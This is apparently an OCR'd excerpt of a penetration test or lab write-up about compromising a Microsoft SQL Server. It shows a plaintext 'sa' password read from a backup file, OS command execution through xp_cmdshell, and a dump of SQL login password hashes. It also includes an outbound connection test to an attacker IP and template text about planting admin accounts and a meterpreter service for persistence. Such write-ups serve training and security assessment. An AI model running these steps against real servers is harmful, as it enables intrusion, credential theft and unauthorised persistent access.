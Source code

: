 ```bash
cat mssql_backup.txt

# output
Username: sa
Password: EjectFrailtyThorn425
```

## Maintaining Access
Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable. The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again. Many exploits may only be exploitable once and we may never be able to get back into a system after we have already per-formed the exploit. $Author added administrator and root level accounts on all systems compromised. In addition to the administrative/root access, a Metasploit meterpreter service was installed on the machine to en-sure that additional access could be established.


### Privilege Escalation
```bash
EXEC xp_cmdshell 'whoami'

# output
nt service\mssql$sqlexpress
```

```bash
SELECT name, password_hash FROM master.sys.sql_logins

# output
sa                                                                                                                             
0x0200de9b93bf476638af8c30c7774c814af24d92fcfda4a1e50fee2b86ba6d9d39d90e476930a8629d5b7fd0e28a5492d858097b6caa106ef21d9b1f957cc811e849e22cb5ae                                                                                                                        
                                                                                                                                       
##MS_PolicyEventProcessingLogin##                                                                                              
0x0200709fd2f131c8ce332d3c5075357dfd66ed0656370f9a72c938d91ac64f67c4d39ab1d494d05b17abe67a543ef029bc429314d65beabb140783752b0d83c51e3fc84d51e5                                                                                                                        

##MS_PolicyTsqlExecutionLogin##                                                                                                
0x020060607d4ea2c6b2520cc84444fe4f8b5c02409f1b381a82391229eb5d49d1f53f74ffed4167ece54a7e9295af4aa1630eae1fd7737f6b7d0f6798109e2ab972e16b4ca4bf  
```

```bash
EXEC xp_cmdshell 'powershell -c "test-netconnection 192.168.49.186 -port 1435"'

# output
TcpTestSucceeded : True
```

